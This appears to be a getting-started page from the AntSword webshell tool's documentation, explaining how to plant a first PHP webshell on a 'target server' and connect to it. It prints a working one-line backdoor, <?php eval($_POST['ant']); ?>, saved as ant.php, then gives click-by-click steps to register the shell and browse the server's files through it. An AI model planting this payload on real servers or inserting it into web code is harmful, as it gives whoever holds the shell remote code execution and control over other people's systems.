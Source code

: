 First Shell
---

> This section will teach you how to add a webshell quickly.

They are as follows：

> Take `PHP` as an Example:

##### 1.create a shell file under specific web directory in your target server

File Name: `ant.php`

Contents:

```
<?php eval($_POST['ant']); ?>
```

![][img_first_shell_1]

##### 2.Open AntSword, `right click` in the blank, select 「`add data`」 in the popped-up menu.

![][img_first_shell_2]

##### 3.Fill in anything needed in popped-up window.

![][img_first_shell_3]

Then, click `click` button. You should be able to see the webshell you've just added.

![][img_first_shell_4]

##### 4.Double-click the shell you've just added, then you should be able to see the main interface of file manager.

![][img_first_shell_5]

> All is that simple! ：）

[img_first_shell_1]: http://as.xuanbo.cc/doc/getting_started/first_shell_1.jpg
[img_first_shell_2]: http://as.xuanbo.cc/doc/getting_started/first_shell_2.jpg
[img_first_shell_3]: http://as.xuanbo.cc/doc/getting_started/first_shell_3.jpg
[img_first_shell_4]: http://as.xuanbo.cc/doc/getting_started/first_shell_4.jpg
[img_first_shell_5]: http://as.xuanbo.cc/doc/getting_started/first_shell_5.jpg
